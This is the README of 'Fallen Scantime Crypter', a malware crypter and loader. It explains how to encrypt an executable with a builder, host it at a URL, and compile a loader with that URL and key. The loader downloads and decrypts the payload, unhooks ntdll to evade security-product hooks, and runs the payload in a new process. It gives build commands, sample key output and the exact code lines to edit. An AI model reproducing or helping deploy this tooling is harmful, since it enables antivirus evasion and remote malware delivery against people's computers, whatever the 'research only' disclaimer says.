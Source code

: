 # FSTC-August-2024
Fallen Scantime Crypter: August 2024

## Notes

Download encrypted file from URL 

Decrypt the file & save to disk

Loads ntdll from disk

Maps sections between new ntdll & hooked ntdll / unhooks

Runs PE (from the download) in a new process

Scantime only

For personal use & research only

## Usage

Build.exe will take an original PE, encrypt with a key and save the new file. You can skip the option key if you want a randomly generated key to be used.
```
Usage: Build.exe <path_to_original_PE> <path_to_output_encrypted_file> [32_byte_key]
Example: Build.exe test_payload.exe encrypted_payload.bin 0123456789abcdef0123456789abcdef
```

After building you will see output in your terminal like this:
```
[*] Generated random 32-byte key: 7ddd25d6c2317d1ecd78cf6b301e3e22866e3458926b9e5badcb42f409684d83
BYTE key[] = { 0x7d, 0xdd, 0x25, 0xd6, 0xc2, 0x31, 0x7d, 0x1e, 0xcd, 0x78, 0xcf, 0x6b, 0x30, 0x1e, 0x3e, 0x22, 0x86, 0x6e, 0x34, 0x58, 0x92, 0x6b, 0x9e, 0x5b, 0xad, 0xcb, 0x42, 0xf4, 0x09, 0x68, 0x4d, 0x83 };
[*] Generated random 16-byte IV: 3036fc85a678d7bff499112ea8257b13
BYTE iv[] = { 0x30, 0x36, 0xfc, 0x85, 0xa6, 0x78, 0xd7, 0xbf, 0xf4, 0x99, 0x11, 0x2e, 0xa8, 0x25, 0x7b, 0x13 };
[*] File encrypted successfully.
```

Once you encrypt your original program with Build, you should upload it to a server and get the public URL.

Then, go to FSTC project/code and edit the main file ( int main() ) for these 3 lines:
```
LPCWSTR url = L"https://github.com/LNodesL/FSTC-August-2024/raw/218a78376b7249fc6231fd96a04827e1ffbfae3d/resources/Payload-Demo.fstc";
BYTE key[] = { 0x8b, 0xc9, 0x62, 0xf5, 0xb6, 0x2c, 0x4d, 0x43, 0xb3, 0xc0, 0x8e, 0xec, 0x55, 0x1d, 0x40, 0x77, 0x49, 0xea, 0x98, 0x44, 0x9d, 0x76, 0xc9, 0xec, 0xeb, 0x66, 0x94, 0x91, 0x98, 0xa3, 0x65, 0xb2 };
BYTE iv[] = { 0x2d, 0xb4, 0xa8, 0xab, 0x77, 0x7b, 0x42, 0x84, 0x80, 0x7c, 0xb9, 0x66, 0x31, 0x48, 0xae, 0x43 };
```

Now compile FSTC, which will download your payload from the URL, decrypt, attempt to unhook ntdll, and create a process for the PE as-is.

## Versions

0.0.2 - Current
- main branch

0.0.1 - Does not use memory method, drops file to current working directory, and uses tmp process
- https://github.com/LNodesL/FSTC-August-2024/tree/drop-file-run-process
- 


## Future Development

- save to tmp file instead of to cwd

- allow builder to modify the final FSTC.exe program's resources or other data to make it easier to build for a new payload/URL without re-compiling
